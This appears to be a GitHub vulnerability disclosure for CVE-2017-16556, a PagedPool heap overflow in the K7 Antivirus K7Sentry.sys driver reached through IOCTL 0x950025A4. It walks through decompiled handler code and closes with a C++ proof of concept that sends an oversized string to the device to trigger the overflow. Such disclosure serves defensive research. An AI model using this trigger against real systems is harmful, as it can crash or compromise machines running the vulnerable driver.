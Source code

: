 # CVE-2017-16556

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*
  * SHA256: 7037F80EC73F4D6E2DFBD2AA675FF154F81AAB2FB7372680AAA1D2D41DB93771
  
# See also
[CVE-2017-16550](../CVE-2017-16550/readme.md)


# Details
The issue lies in the dispatch handler for the IRP_MJ_DEVICE_CONTROL (sub_00018FC0). The handler code for IoControlCode 0x950025A4 makes use of a string routine which doesn't have any length limitations on it with user data that has not been validated, leading to a heap overflow.

The following simplified code snippets are decompiled output that make up this issue.
 

```C++
// Dispatch handler routine...
// See: CVE-2017-16550 for the setup of the stIoControlBuffer
case 0x950025A0:
    v9 = 1;
    goto LABEL_117;
case 0x950025A4:
    // Follow the function call down to find the issue. 
    // Also known as: sub_15BB0
    v9 = PrintfBugInHere(&stIoControlBuffer);
    goto LABEL_117;
case 0x950025A8:
    v9 = sub_15A10(&stIoControlBuffer);
    goto LABEL_117;
```

```C++
int __stdcall PrintfBugInHere(IoControlBuffer *pIoControlBuffer)
{
    // ... Locals ...

    pszString = (WCHAR *)pIoControlBuffer->pInputBuffer;
    *pIoControlBuffer->pdwIoStatusInformation = 0;
    if ( dword_287A8 )
    {
        // In here...
        cStr = *pszString;
        
        // Note: If we passed in an invalid buffer as the input, or a zero length buffer then this 
        // would be an out-of-bounds read, however the more interesting bug is later! 
        if ( *pszString < 'A' || cStr > 'Z' )
        {
            if ( wcsnicmp(pszString, L"\\\\?\\Volume", 0xAu) )
                return 0;
            pUnk7 = g_PointToMagic_K7CM;
        }
        else
        {
            v3 = cStr - 'A';
            if ( &v11 != (int *)0xFFFFFFF1 )
            v12 = byte_49642[672 * v3];
            pUnk7 = (unk7 *)dword_49650[168 * v3];
        }
        if ( pUnk7 )
        {
            // In here...
            if ( v12 )
            {
                // In here... and call this function.
                // This is wher
                if ( !GetNtfsFileReferenceNumber_PossibleFlaw(pszString, &dwFileReferenceNumber) )
    
    // ... not required for to illustrate the vuln.
}
```

```C++
char __stdcall GetNtfsFileReferenceNumber_PossibleFlaw(WCHAR *pszDeviceName, PVOID out_FileReferenceNumber)
{
    wchar_t *pBuffer_0x2000; // esi
    // Other locals...

    pBuffer_0x2000 = (wchar_t *)ExAllocatePool(PagedPool, 0x2000u);
    if ( pBuffer_0x2000 )
    {
        // An attacker can control pszDeviceName. 
        swprintf(pBuffer_0x2000, L"%s\\%s", L"\\DosDevices", pszDeviceName);
```

Following the code through, it allocates 0x2000 (4096) bytes from PagedPool and then uses an unbounded format string function to create the *\DosDevices\\...* path. *pszDeviceName* has come directly from the input buffer and has not had any validation performed. Some of the issues include:
* A string that is is larger than the buffer it is going to be written to. In this example (as it is UNICODE), the string length would need to be larger than:
  * (0x2000 / 2) - strlen("\DosDevices") - 1
  * Convert bytes to UNICODE characters - so the buffer can hold 0x1000 characters
  * 0x1000 - 11 (length of \DosDevices) - 1 (middle slash) = 0xff4 (4084)
  * So any string we can pass in that is > 4084 length, we can cause a heap overflow on the PagePool heap
* Another option would be to pass in a non-zero termianted string. This would cause an out-of-bounds read on the input buffer, potentially leading to a BSOD. (Didn't try this, went for the first option).


# PoC Code
```C++
BYTE inBuffer[0x40000] = { 0 };
BYTE outBuffer[0x4000] = { 0 };
DWORD dwBytesReturned = 0;
PWSTR pszInBuffer = (PWSTR)inBuffer;
HANDLE hDevice = INVALID_HANDLE_VALUE;

// Open a handle to the device
hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);

if (hDevice != INVALID_HANDLE_VALUE)
{
    // Fill it with a letter that isn't 0.
    for (DWORD i = 0; i < sizeof(inBuffer) / sizeof(WCHAR); ++i)
    {
        pszInBuffer[i] = 'C';
    }

    // Zero terminate teh string
    DWORD dwLastIndex = (sizeof(inBuffer) / sizeof(WCHAR)) - 1;
    inBuffer[dwLastIndex] = '\0';

    // Trigger the bug to cause to overflow on the PagePool heap.
    if (!DeviceIoControl(hDevice, 0x950025A4, inBuffer, sizeof(inBuffer), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
    {
        printf("Error: DeviceIoControl failed: 0x%08x\r\n", GetLastError());
    }
}

```